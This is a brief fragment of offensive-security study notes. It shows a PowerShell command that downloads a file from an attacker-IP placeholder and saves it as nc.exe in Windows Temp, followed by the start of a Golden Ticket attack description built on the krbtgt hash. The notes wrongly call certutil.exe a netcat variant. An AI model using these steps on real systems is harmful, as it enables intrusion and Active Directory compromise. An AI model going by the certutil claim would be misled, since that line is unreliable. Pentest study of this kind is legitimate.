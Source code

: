 # Windows Machine {-}

certutil.exe -> netcat variant for Windows

```bash
powershell -c iwr -uri http://<attacker_ip>/<file_to_download> -OutFile C:\Windows\Temp\nc.exe
```

## Active Directory {-}

### Golden Ticket Attack {-}

The goal of this attack is to generate a Ticket Granted Ticket. For this attack you thenneed to recover the hash of the **krbtgt** user that is the one who 
can create those tickets

